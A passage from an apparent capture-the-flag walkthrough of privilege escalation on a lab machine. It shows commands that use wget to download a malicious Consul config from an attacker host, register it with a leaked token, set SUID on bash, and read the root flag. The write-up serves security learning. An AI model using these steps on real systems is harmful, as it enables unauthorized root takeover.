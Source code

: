 ```console
developer@ambassador:~$ wget http://10.10.14.63:8000/exploit.hcl
developer@ambassador:~$ cp exploit.hcl /etc/consul.d/config.d/
```
Next we are going to run the commands directly with consul and use the token found earlier in the .git files.

Note: Consul documentation will help you out the most for learning how to use this program.

```console
developer@ambassador:~$ consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
developer@ambassador:~$ consul services register -token=bb03b43b-1d81-d62b-24b5-39540ee469b5 /etc/consul.d/config.d/exploit.hcl
developer@ambassador:~$ consul reload -token=bb03b43b-1d81-d62b-24b5-39540ee469b5
Configuration reload triggered
```

After running these commands /bin/bash should have the suid bit set and you can run commands as root!

```console
developer@ambassador:~$ bash -p
bash-5.0# id
uid=1000(developer) gid=1000(developer) euid=0(root) groups=1000(developer)
bash-5.0# cat /root/root.txt
a693****************************
bash-5.0# 
```
